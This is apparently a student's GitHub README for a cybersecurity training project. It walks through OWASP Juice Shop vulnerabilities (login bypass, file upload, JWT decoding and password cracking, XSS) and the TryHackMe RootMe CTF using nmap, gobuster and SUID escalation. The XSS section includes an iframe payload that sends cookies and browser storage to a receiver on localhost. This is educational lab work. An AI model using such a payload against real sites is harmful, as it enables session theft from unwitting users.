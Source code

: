 # project2
## Description:
This project focuses on practical cybersecurity training by exploring web application vulnerabilities, writing professional reports, solving Capture The Flag (CTF) challenges, and mastering network scanning. It includes hands-on tasks with OWASP Juice Shop and TryHackMe's "Root Me" CTF, enhancing both offensive and defensive skills. Additionally, it incorporates developing a custom Python-based Nmap tool, fostering scripting and network analysis expertise.

**Assessment Methods:**

**Practical Exploration:**

**Identifying and documenting at least 5 vulnerabilities in OWASP Juice Shop.**

**Rooting a machine in the "Root Me" CTF.**

**Tool Proficiency:**

**Running Nmap scans on the Metasploitable or CTF server to detect services and vulnerabilities.**

**Developing a custom Python-based Nmap scanner that performs similar functions.**

**Report Writing:**

**Submitting a well-structured vulnerability assessment report on Juice Shop findings.**

**Including analysis, impact, and mitigation for identified vulnerabilities.**

**Learning Methods:**

**Hands-on experimentation with OWASP Juice Shop and TryHackMe challenges.**

**Guided and independent use of Nmap.**

**Python scripting for network analysis.**

**Research on professional report-writing techniques.**

## Requirements:

**Juice Shop** 

**Metasploitable**

**Burp Suite**

**TryHackMe account**

**Nmap**

**Gobuster**

**Metasploit**

**Python**
### Vulnerabilities in OWASP Juice Shop

**Steps to Install docker and Exploring OWASP Juice Shop Vulnerabilities**

**Install Docker**

```
sudo apt install docker.io
```

```
sudo su
```

``
usermod -aG docker {{user-anun}}
``

```
su {{user-anun}}
```

Run 
```
docker pull bkimminich/juice-shop
```

Run 
```
docker run --rm -p 127.0.0.1:3000:3000 bkimminich/juice-shop
```

**Exposes port 3000 on your localhost, allowing you to access
Juice Shop via http://localhost:3000**

#### 1. SQL Injection
**About attack:** SQL Injection exploits improper handling of user inputs in SQL queries. If input fields or URL parameters are not properly sanitized or validated, attackers can inject malicious SQL code to manipulate the query.

**How it was detected:** 
Lets try to dump system with SQL prompts.
We have access to admin page, with some games of clicking buttons, we can find the mail of admin. Here it is.
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_03_08_45.png)
Login with the administration's user account.
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_03_11_10.png)
Access the administration section of the stor
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_03_14_12.png)

#### 2. Security Misconfiguration
Uploading leaks
in this page valide only images file  
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_04_51_36.png)
but we can upload other file too
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_04_52_28.png)
 for exampl .zip,pdf
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-02_11_29_25.png)
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-02_11_28_40.png)

#### 3. Broken Access Control
**Use boolean OR and write true expression. before login turn on burpsuite, catch traffic from proxy, throw repeater and click send.** 

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_14_50_16.png)


**Now get token from response part and use convertor for example https://jwt.io/**

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot%20from%202024-12-05%2000-17-25.png)

**Now get hashing password,  use something algorithm for get true password, https://crackstation.net/  may be it weak...**

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot%20from%202024-12-04%2023-53-05.png)

**Congratulations!!!**

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_15_02_45.png)
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_15_05_02.png)

#### 4. Cross-Site Scripting (XSS)

About attack: Cross-Site Scripting (XSS) is a type of security vulnerability in web applications where an attacker injects malicious scripts into trusted websites. These scripts run in the context of other users' browsers, potentially allowing the attacker to steal sensitive information like session cookies, manipulate website content, or perform unauthorized actions on behalf of the victim.

**There are many payloads for XSS attacks. Some of them can be found in the https://xss.js.org/**
The payload is 
```
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```
**Injecting JavaScript into input fields like search or feedback forms.**

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot%20from%202024-12-05%2002-52-29.png)

payload can be 
```
<iframe src="javascript:fetch('http://localhost:5000/receiver', {method: 'POST',headers: { 'Content-Type': 'application/json' },body: JSON.stringify({cookies: document.cookie,localStorage: JSON.stringify(localStorage),sessionStorage: JSON.stringify(sessionStorage)})});"> </iframe>
```
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot%20from%202024-12-05%2002-54-11.png))

#### 5. Find the Hidden Page


**Do not link this page directly in the app's navigation bar or footer.**

**From now on you will see the additional menu item Score Board in the navigation bar.**

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-05_16_52_37.png)

### RootMe CTF
#### 1. What is RootMe CTF?
**RootMe CTF is a Capture The Flag (CTF) challenge designed for beginners to test their hacking skills and gain hands-on experience with cybersecurity.**

The first step is to deploy the virtual machine. You can find it on [TryHackMe](https://tryhackme.com/room/rrootme). As it deploys, take note of the IP address assigned to your instance. If you want to work by vpn, need download vpn package and give some permission.
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot%20from%202024-12-07%2021-28-57.png)
```
chmod +x [filename]
```
```
sudo openvpn [filename]
```
**sometime you need start mashin or see IP**
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-06_15_08_53.png)
 
#### 2. What tools are used in RootMe CTF?
In RootMe CTF, you’ll use tools like Nmap for scanning,Use GoBuster to discover hidden directories, and various commands for privilege escalation.
```
nmap -sV [TARGET MACHINE IP]
```
```
gobuster dir -u [MACHINE IP] -w [WORDLIST PATH]
```
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-07_10_54_46.png)
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-07_10_22_26.png)
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-07_10_52_57.png)
#### 3. How can I escalate my privileges in RootMe CTF?
To escalate privileges, you’ll need to find files with SUID permissions and then use a specific Python command to gain higher access.
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot%20from%202024-12-07%2022-37-30.png)
